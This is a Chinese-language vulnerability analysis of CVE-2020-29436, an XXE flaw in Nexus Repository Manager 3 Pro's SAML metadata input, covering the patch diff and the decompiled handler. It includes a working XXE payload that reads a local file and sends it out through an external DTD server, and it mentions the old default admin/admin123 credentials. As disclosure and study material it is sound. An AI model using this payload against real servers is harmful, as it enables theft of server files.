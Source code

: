 # Nexus Repository Manager3 ProXXE分析(CVE-2020-29436)

**作者：r00t4dm@Cloud-Penetrating Arrow Lab & Longofo@知道创宇404实验室**  
**时间：2020年12月16日**

最近Nexus Repository Manager3[安全公告](https://support.sonatype.com/hc/en-us/sections/203012668-Security-Advisories)更新了一个XXE漏洞，虽然需要管理权限才能利用，并且Nexus Repository Manager3在较高的版本中也会强制更改以前较低版本使用的默认密码`admin/admin123`，最后漏洞触发也很简单，但是过程还是挺有意思，并且不会受到jdk高版本导致不能带换行的问题，列目录、读文件可以带出任意字符，除了二进制文件外，没有找到能编码的协议。

## 补丁

[diff](https://github.com/sonatype/nexus-public/compare/release-3.28.1-01...release-3.29.0-02)下最高漏洞版本3.28.1-01和修复版本3.29.0-02：

![](./resource/Nexus Repository Manager3 ProXXE分析(CVE-2020-29436)/media/v2-e2be1ea0ca7a5049167e98454f591e8d_b.jpg)

可以看到在一个SafeXml#configureValidator中做了限制加载外部dtd的操作，可以注意到这个configureValidator是新增的方法而不是在原方法中修复，但是只是个工具类。

## 漏洞复现

来到后台Saml的功能点：

![](./resource/Nexus Repository Manager3 ProXXE分析(CVE-2020-29436)/media/v2-f331f8dd3e51ad798740576e028eea85_b.jpg)

看到这个大大的XML输入框就知道大概率是有XML操作的。

简单测试下能不能进行dtd请求，如果能的话很可能读取文件也可以：

![](./resource/Nexus Repository Manager3 ProXXE分析(CVE-2020-29436)/media/v2-0e7cdf9f0de38cf1d590babc28dff691_b.jpg)

点击保存就能看到进行了请求。测试了下读文件，可以利用ftp、http等协议带出单行文件，看了下jdk版本在windows是使用的自带的8u252，@r00t4dm在mac上的安装包不会自带jdk，使用的是系统的，那么linux下也是系统的，所以试用的是较低版本的jdk，是可以带换行的。后面看了下返回包，居然把异常返回到了json，那么我们可以通过报错xml将任何文本字符带出了，包括`\n`、`#`、`<`等文本字符。

payload:

```xml
<?xml version="1.0" encoding="utf-8"?> <!DOCTYPE ANY \[ <!ENTITY % file SYSTEM "file:///C:/Windows/win.ini"> <!ENTITY % dtd SYSTEM "[http://127.0.0.1:8000/my.dtd](https://link.zhihu.com/?target=http%3A//127.0.0.1%3A8000/my.dtd)"> %dtd; %send; \]> <ANY>xxe</ANY> dtd： <!ENTITY % all "<!ENTITY &#x25; send SYSTEM '%file;'>" > %all;
```

看下效果：

![](./resource/Nexus Repository Manager3 ProXXE分析(CVE-2020-29436)/media/v2-98103421b633770daaf419bf9c9cbcfa_b.jpg)

其他带`#`、`<`等字符的文件也都可以。

## 漏洞分析

既然configureValidator是新增的方法，而且是一个static方法，那么在最新版本中大概率就有其他类调用这个方法了来修复了。在github开源的3.29.0-02代码中搜索configureValidator，没有搜到任何结果，这个地方就很奇怪了，难道是动态隐式调用？但是前面configureValidator是一个新增的方法并且是一个静态方法，感觉不太可能动态隐式调用。因为之前也弄过Nexus的漏洞，他的安装包lib中有许多代码没有在github那个开源的仓库中，所以就反编译了3.29.0-02版本所有的lib包，一搜索configureValidator，果然有调用而且就此一处：

![](./resource/Nexus Repository Manager3 ProXXE分析(CVE-2020-29436)/media/v2-1d34419cfa044f377622bd716ad9c135_b.png)


接着又往上搜SamlMetadataTool的调用，都是带有Saml字眼的相关类在调用。所以猜想会有个Saml的功能，去[官方文档](https://help.sonatype.com/repomanager3/system-configuration/user-authentication/saml)搜索下：

![](./resource/Nexus Repository Manager3 ProXXE分析(CVE-2020-29436)/media/v2-a1302cc05678b0f4872281a7aa1220a6_b.jpg)

看到这个描述是不是有点激动呢？猜测就是这个位置了。按照描述去后台配置点，发现并不能使用这个SAML功能，再看文档说的式要Pro版本才能用这个功能，可以去官网[申请试用](https://www.sonatype.com/nexus/repository-pro)。

从上面的发包可以看到处理url为`/service/rest/internal/ui/saml`，在github开源部分的代码中依然是搜不到的，在反编译的代码中搜索`/ui/saml`可以找到处理类:

![](./resource/Nexus Repository Manager3 ProXXE分析(CVE-2020-29436)/media/v2-de73d543d073c1c79ca51deffa4c682b_b.png)

下面是调用栈：

![](./resource/Nexus Repository Manager3 ProXXE分析(CVE-2020-29436)/media/v2-02d0193c7e806f8800e61069781da8f5_b.jpg)

前面调用栈太长就不copy出来了。

## 参考

> https://zhuanlan.zhihu.com/p/337649864